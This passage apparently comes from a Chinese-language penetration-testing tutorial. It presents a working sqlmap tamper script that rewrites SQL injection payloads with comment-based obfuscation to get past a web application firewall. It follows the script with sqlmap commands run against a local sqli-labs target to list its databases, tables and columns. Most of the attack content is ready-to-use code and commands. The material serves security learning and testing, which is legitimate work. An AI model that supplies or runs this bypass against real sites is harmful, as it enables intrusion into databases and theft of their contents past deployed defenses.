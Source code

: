         return payload.replace('\'', "%EF%BC%87") if payload else payload  
    

可见Tamper脚本的结构非常简单，其实渗透测试中的主要难点还是如何去绕过WAF。

下面我们针对bypass部分的绕过方法进行编写Tamper脚本，来实现自动化SQL注入：

> 实际测试的时候发现，sqlmap默认语句中的`AS`关键字也会被拦截，这里也用同样的方法替换一下就好
    
    
    #!/usr/bin/env python  
      
    import re  
      
    from lib.core.settings import UNICODE_ENCODING  
    from lib.core.enums import PRIORITY  
    __priority__ = PRIORITY.NORMAL  
      
    def dependencies():  
        pass  
      
    def tamper(payload, **kwargs):  
        if payload:  
            payload = payload.replace(" ","/*/!%!/*/")  
            payload = payload.replace("()","(/*/!%!/*/)")  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.SCHEMATA)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.SCHEMATA*/",payload)  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.TABLES)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.TABLES*/",payload)  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.COLUMNS)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.COLUMNS*/",payload)  
            payload = re.sub(r"(?i)(/AS/)",r"//*!00000--%20/*%/%0aAS*//",payload)          
      
        return payload  
    

测试：

    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180232.png)

    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent --dbs
    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security --tables

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180235.png)

    
    
    python2 sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security -T users --columns

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222180237.png)
